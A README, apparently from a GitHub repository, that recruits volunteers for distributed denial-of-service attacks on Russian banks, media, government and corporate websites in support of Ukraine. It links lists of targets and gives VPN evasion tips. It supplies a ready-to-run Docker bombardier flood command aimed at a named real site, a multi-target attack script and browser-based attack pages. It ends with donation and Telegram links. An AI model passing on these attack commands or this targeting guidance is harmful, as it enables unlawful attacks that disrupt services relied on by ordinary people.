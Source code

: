 # Save Ukraine 🇺🇦

Russia has vilely attacked Ukraine on the morning of February 24, bombing peaceful cities with millions of people.

I've tried to compose a list of DDoS tools to help win this war on the informational front.

Our goals:
- Disrupt Russian propaganda websites and gov services
- Force people in Russia to protest against violent government policy
- Win this war

Last but not least [Русский корабль — иди нахуй!](https://www.youtube.com/watch?v=LDrFVdms8yk)

## VPN software

It's better to secure yourself with a VPN service. It makes you more anonymous, and you can switch to a different IP if yours get blocked.

I'll list here only ones that [have shown](https://macpaw.com/news/macpaw-amidst-aggression) support to Ukraine and provided temporary free access.

Ideally, choose a Russian IP, so you have fewer chances to be blocked.

### ClearVPN

1. Sign up on the website
2. Click on "Redeem a promocode"
3. Enter coupon code "SAVEUKRAINE"
4. Download the desktop app
5. Once installed, go back to the website and click "Auto-login"

### F-Secure FREEDOME VPN

1. Register using [this link](https://t.co/TekcNPxW9p) (copied from [here](https://twitter.com/fsecure/status/1497248407303462960))
2. Fill out your details and choose "Ukraine" as a country
3. Copy activation code
4. Download "F-Secure FREEDOME VPN" from [here](https://www.f-secure.com/en/home/download#freedome)
5. Once downloaded, go to "Subscriptions" -> "Activate subscription" and enter your license code

## List of targets

- [Banks and financial services](./targets/banks.txt)
- [Media propaganda resources](./targets/media.txt) 
- [Governmental and state resources](./targets/state.txt)
- [Business corporations](./targets/corporations.txt)
- [Other unsorted](./targets/unsorted.txt) (feel free to contribute)

## Checking availability

You can check the availability of target resources using these websites:

- https://check-host.net/check-ping
- https://ddosmonitor.herokuapp.com

## DDoS Tools

### Docker (single-website attack)

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal
3. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 9600s -l https://www.1tv.com/` (change URL to the one you want to attack)

> See [Bombardier docs](https://github.com/codesenberg/bombardier) for more options

### Docker (multiple websites)

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal
3. Download `bombardier.sh`
4. Run `sudo chmod +x bombardier.sh`
5. Run `./bombardier.sh` to attack all targets
6. Run `./bombardier.sh banks` to attack specific category targets (see [targets](./targets))

## Browser-based DDoS

This approach doesn't require any technical knowledge, simply open the website and follow instructions.

- https://attack-ui.vercel.app/attack/ddos/start ([instructions](https://destiny-jumbo-8c6.notion.site/Attack-UI-5aebc8eaedcc47448b6d79fc4243d141))
- https://nowarukraine.online/
- https://vug.pl/takeRussiaDown.html
- https://cyber-yozh.com/
- https://playforukraine.live/

## Support Ukraine with a donation

Please support Ukraine to win this war. Every cent matters.

These are verified and government-supported funding websites:

1. https://uahelp.monobank.ua/
2. https://bank.gov.ua/en/news/all/natsionalniy-bank-vidkriv-spetsrahunok-dlya-zboru-koshtiv-na-potrebi-armiyi
3. https://putler.io/

You can also support with crypto ([source](https://t.me/zedigital/1107)):
- BTC: `357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P` ([see balance](https://www.blockchain.com/btc/address/357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P))
- ETH: `0x165CD37b4C644C2921454429E7F9358d18A45e14` ([see balance](https://etherscan.io/address/0x165CD37b4C644C2921454429E7F9358d18A45e14))
- USDT (TRC20): `TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy` ([see balance](https://usdt.tokenview.com/en/address/TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy))

## Join our IT army

1. [Official IT army Telegram channel](https://t.me/itarmyofukraine2022)
2. [Report vulnerabilities](http://t.me/stop_russian_war_bot) on Russian resources anonymously

## Any suggestions?

If you have something to add to the list, please submit a PR or write to comradefuckz@protonmail.com. 
